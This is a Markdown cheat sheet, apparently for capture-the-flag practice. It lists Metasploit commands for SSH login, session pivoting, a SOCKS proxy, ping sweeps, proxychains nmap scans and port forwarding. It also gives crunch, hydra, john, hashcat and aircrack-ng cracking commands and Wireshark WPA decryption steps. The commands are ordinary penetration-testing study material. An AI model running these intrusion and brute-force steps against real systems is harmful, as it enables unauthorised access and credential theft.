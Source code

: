     > mfsconsole  
    > search ssh  
    > use multi/ssh/sshexec  
    > set rhosts `<ip>`  
    > set username `<username>`  
    > set password `<password>`  
    > set rport `<port>`  
    > exploit  
    > bg  
    > sessions  
    > route add otheripfoundwithsshlogin/netmask 2(sessionid)  
    > search socks  
    > use auxiliary/server/socks_proxy  
    > run -j  
    > jobs  
    
    > search ping_sweep  
    > use post/multi/gather/ping_sweep  
    > sessions  
    > set session `<sessionid>` 
    > set rhosts `<ip_of_other_device>`/`<netmask>`
    > exploit  
    
    > proxychains nmap -sn `<ip_of_other_device>`/`<netmask>`  
    > proxychains nmap -sn -p- -v -A -T5 -sV `<ip_of_hidden_device>`  
  
    > sessions  
    > sessions -i `<sessionid>`  
    > portfwd add -l 8080 -p 80 -r `<ip_of_hidden_device>`  

<br>

### **Cracking**
- **Word list generation:**
    > crunch `<min-lengt>` `<max-lengt>` -t flag-%%%% -o `<wordlist>`.lst  

- **Hydra:**
    > hydra -l `<username>` -p `<wordlist>`.lst `<ip>` `<protocol>`

- **ZIP:**
    > zip2john `<name>`.zip > zip.hash  
    > john --wordlist=`<wordlist>`.lst zip.hash

- **Hashes:**
    > hashcat `<hashes>`.hash --user  
    > hashcat `<hashes>`.hash --user -m `<hash_type>` `<wordlist>`.lst 

- **WiFi:**
    > aircrack-ng -w `<wordlist>`.lst `<capture>`.pcap  

<br>

### **WireShark**
- **Flow:**
    > right click on a packet  
    > protocol preferences  
    > wireless lan  
    > decryption keys  
    > add wpa-pwd  
    > add the key  
